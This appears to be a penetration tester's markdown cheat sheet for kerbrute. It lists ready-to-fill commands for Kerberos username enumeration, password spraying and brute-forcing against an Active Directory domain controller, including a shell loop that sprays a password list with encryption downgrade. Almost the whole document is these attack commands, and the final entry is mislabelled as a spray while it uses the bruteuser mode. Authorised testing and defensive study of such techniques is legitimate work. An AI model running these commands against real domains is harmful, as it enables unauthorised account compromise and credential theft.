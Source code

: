 # kerbrute
#plateform/linux #target/remote #cat/ATTACK

## Test userlist
```
/opt/kerbrute/dist/kerbrute_linux_386 userenum -d <domain> --dc <target> <usersfile|test_users.txt>
```

## Passwords spray passwords list
```
while IFS= read -r password; do /opt/kerbrute/dist/kerbrute_linux_386 passwordspray -d <domain> --dc <target> <userslist|valid_users.txt> $password --downgrade; done < <passwordslist|passwords.txt>
```

## Bruteforce user
```
/opt/kerbrute/dist/kerbrute_linux_386 bruteuser -d <domain> --dc <target> <wordlist|/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt> <user> --downgrade
```

## Password spray
```
/opt/kerbrute/dist/kerbrute_linux_386 bruteuser -d <domain> --dc <target> <usersfile|valid_users.txt> <passwd> --downgrade
```
